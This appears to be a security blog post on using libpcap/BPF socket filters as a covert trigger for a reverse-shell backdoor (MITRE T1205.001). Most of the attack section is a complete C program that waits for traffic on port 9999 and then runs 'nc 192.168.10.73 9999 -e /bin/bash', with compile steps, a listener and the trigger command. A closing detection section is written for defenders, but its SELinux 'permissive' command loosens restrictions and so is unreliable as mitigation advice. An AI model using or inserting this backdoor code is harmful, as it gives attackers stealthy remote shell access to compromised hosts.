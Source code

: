 ```yaml
---
title: Traffic Signaling:- Socket Filters in C2
category: Persistence
tags: [Traffic Signaling (T1205.001)]
---
```


Socket filters provide a mechanism at the kernel level for filtering, managing, and controlling network traffic. By using these filters, network administrators, security software, and even adversaries can craft controlled network communication pathways by selectively allowing or blocking traffic based on specific criteria.

Socket filters operate by attaching filters—typically using the **Berkeley Packet Filter (BPF)**—to network sockets. This enables the system to inspect, modify, and selectively process data packets as they flow through. With this setup, socket filters can analyze packet headers, payloads, and metadata, enabling decisions based on factors like IP addresses, port numbers, and protocols.

## Socket Filters for Backdoor Activation
#### **Initial Compromise and Filter Setup**

Once an adversary compromises a system, they may seek to maintain persistence through a covert backdoor or C&C channel. To do this, they can attach a custom socket filter to the network interface using tools like **libpcap** or **Winpcap** (Windows), or by directly using **setsockopt** with the **SO_ATTACH_FILTER** option. This socket filter allows the adversary to selectively monitor and intercept network traffic to and from the compromised system.

***Example:*** an adversary may install a filter on **eth0** (the primary network interface) to monitor TCP traffic on a specific port (e.g. 9999), which they’ll later use to communicate with a reverse shell or to send commands.

**libpcap-dev installation**
   `sudo apt install libpcap-dev`
This program will now capture TCP packets on port 9999 and print a message when it detects a match. Upon detecting the packet, it will trigger the reverse shell activation by connecting to the attacker

    #include <pcap.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    // Declare the packet handler function before main
    void packet_handler(u_char *user_data, const struct pcap_pkthdr *pkthdr, const u_char *packet);
    
    int main() {
        char errbuf[PCAP_ERRBUF_SIZE];
        pcap_t *handle;
    
        // Open the network interface for packet capture (adjust interface name)
        handle = pcap_open_live("enp0s3", BUFSIZ, 1, 1000, errbuf); // Adjust the interface name
        if (handle == NULL) {
            fprintf(stderr, "Error opening device: %s\n", errbuf);
            return 1;
        }
    
        // Set a filter for TCP traffic on port 9999 (reverse shell port)
        struct bpf_program fp;
        char filter_exp[] = "tcp port 9999";  // Port for reverse shell
        if (pcap_compile(handle, &fp, filter_exp, 0, PCAP_NETMASK_UNKNOWN) == -1) {
            fprintf(stderr, "Error compiling filter\n");
            return 1;
        }
        if (pcap_setfilter(handle, &fp) == -1) {
            fprintf(stderr, "Error setting filter\n");
            return 1;
        }
    
        // Start capturing packets, invoking the packet handler on each match
        printf("Listening for traffic on port 9999...\n");
        pcap_loop(handle, 0, packet_handler, NULL);
    
        // Close the capture handle after the loop finishes
        pcap_close(handle);
        return 0;
    }
    
    // Define the packet handler function
    void packet_handler(u_char *user_data, const struct pcap_pkthdr *pkthdr, const u_char *packet) {
        // Print out some basic info about the captured packet
        printf("Captured a packet matching the filter!\n");
        printf("Packet Length: %d bytes\n", pkthdr->len);
    
        // Simulate reverse shell activation (spawning a shell)
        printf("Initiating reverse shell...\n");
    
        // Execute reverse shell: Connect back to attacker (adjust the IP address)
        if (fork() == 0) {
            execlp("/bin/bash", "bash", "-i", "-c", "nc 192.168.10.73 9999 -e /bin/bash", (char *)NULL);
            exit(0);
        }
    }



**Compile the program**
   `gcc -o packet_capture packet_capture.c -lpcap`

**Run the program**
   `sudo ./packet_capture`

![Packet Filter & capture](/assets/img/socket-filters/packet_capture.png)
#### **2. Sending Crafted Packets to Trigger Reverse Shell**

The attacker needs to listen for incoming reverse shell connections and send a packet to the victim to trigger the filter.


**Set up the Reverse Shell Listener on adversary**
   `nc -lvnp 9999`

This will listen on port 9999 for incoming connections, allowing the attacker to receive the reverse shell once it's triggered.


***Send a Packet to Trigger the Filter on victim machine***
`echo "Test" | nc -w 1 victim-ip 9999` 

![Packet Filter & capture](/assets/img/socket-filters/shell.png)



The attacker needs to send a packet to the victim's machine that matches the BPF filter. Use Netcat to send a simple packet.This packet will match the filter.

This simulation demonstrates how an attacker can use packet filters to trigger a reverse shell without needing to maintain an active connection. By understanding how packet filters work and how they can be leveraged by adversaries, security professionals can better detect and prevent such attacks. The use of packet filters to monitor specific ports can be an effective persistence mechanism for attackers, which makes detecting these activities crucial for securing systems.

#### **3. Triggering Command Shell or Implant Installation**

In this example, the filter could be used to trigger additional actions, such as:

-   **Installing a backdoor** or **implant** on the system.
-   **Command and control (C&C)**: Using the reverse shell to send further commands, enabling remote manipulation of the system.

The filter could be crafted to not just passively monitor traffic but to activate certain system features when certain types of packets are detected. This makes the attack highly stealthy, as there is minimal traffic to attract attention, and the filter's actions are only triggered under specific conditions.

#### **4. Evasion and Low Detection Risk**

Since the socket filter is designed to operate with minimal system overhead, its activity is difficult to detect. It is typically lightweight and does not involve complex processes that could raise suspicion. Additionally, because the socket connection is not activated until the filter receives a matching packet, there is limited activity on the host, making it hard to identify the attack.

The lack of visible network activity and the use of low-overhead socket operations mean that traditional network monitoring tools or IDS systems that rely on frequent traffic inspection may fail to detect the exfiltration or reverse shell activation.

### **Detection and Mitigation**


#### **A. Monitoring and Auditing Network Interfaces**

To detect the use of socket filters for covert backdoor activations, network administrators can monitor for suspicious BPF programs or unusual socket activity. Tools like **bpftool** can list active BPF programs attached to network interfaces, which can help identify abnormal or unauthorized filters.

**Check for BPF programs attached to network interfaces**


`sudo bpftool prog show` 

This can identify any filters that have been installed on the system, such as those attached to port 9999 for reverse shell activation.

#### **B. Inspecting Network Traffic**

Adversary-driven packet filters often utilize hidden or non-standard ports for command and control. By analyzing network traffic for deviations from normal patterns—such as traffic on uncommon ports or with unusual packet characteristics—defenders can identify potential exfiltration or C&C activity.

For example, using **tcpdump** to capture traffic on port 9999 can help detect attempts to trigger backdoors or implants.

_**Capturing traffic on port 9999**_


`sudo tcpdump -i eth0 port 9999` 

#### **C. Kernel Auditing and System Integrity Checks**

Monitoring the integrity of the system kernel can help detect unauthorized filter installation. Using kernel auditing tools like **auditd** and monitoring for the loading of suspicious BPF programs or network-related system calls can provide early warning signs of an attack.

#### **D. Restricting Socket Filter Usage**

Restricting access to the ability to attach socket filters can help prevent adversaries from deploying them. Using system hardening techniques, such as configuring **SELinux** or **AppArmor**, can limit access to the relevant system calls or BPF functionalities.

_**SELinux policy to restrict BPF program usage**_


`semanage permissive -a bpfilter_t` 

#### **E. EDR**

Advanced EDR tools can help detect unusual processes and activities associated with backdoor activation, such as the sudden spawning of reverse shells or unusual socket connections. By correlating event logs and monitoring for anomalous behavior, defenders can identify and respond to attacks more effectively.

### **Conclusion**

The use of socket filters for covert backdoor activation and command and control is a powerful evasion technique used by adversaries. By exploiting _**libpcap**_ or _**Winpcap**_, attackers can create custom filters that monitor specific traffic and trigger malicious actions, such as reverse shells or implant installations, when certain criteria are met. Defenders must be vigilant in monitoring network interfaces, analyzing traffic patterns, and implementing security measures to detect and mitigate such attacks before they can cause damage.